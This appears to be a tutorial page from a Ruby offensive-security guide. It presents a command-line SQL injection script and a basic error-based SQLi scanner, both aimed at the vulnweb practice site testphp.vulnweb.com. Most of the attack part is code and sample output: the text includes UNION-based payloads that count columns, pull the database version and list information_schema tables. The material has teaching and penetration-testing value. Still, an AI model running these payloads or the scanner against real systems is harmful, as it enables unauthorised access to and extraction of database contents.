 # SQL Injection Scanner


## Basic SQLi script as command line browser

The is a very basic script take your given payload and send it to the vulnerable parameter and returns the response back to you. I'll use (http://testphp.vulnweb.com/) as it's legal to test.

```ruby
#!/usr/bin/evn ruby
#
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts ""
```


> I've commented the line `puts response.body.gsub(/<.*?>/, '').strip` and added a custom RegEx to fix our target outputs.



Let's to test it in action

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL
```





Here a very basic and simple SQL-injection solid scanner, develop it as far as you can!

```ruby
#!/usr/bin/env ruby
#
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      '\'',
      '"',
      '\' or 1=2--+'
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occured = vulnerable
puts "[+] The #{uri.to_s} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil?

```

Try this url (http://testasp.vulnweb.com/showforum.asp?id=0)

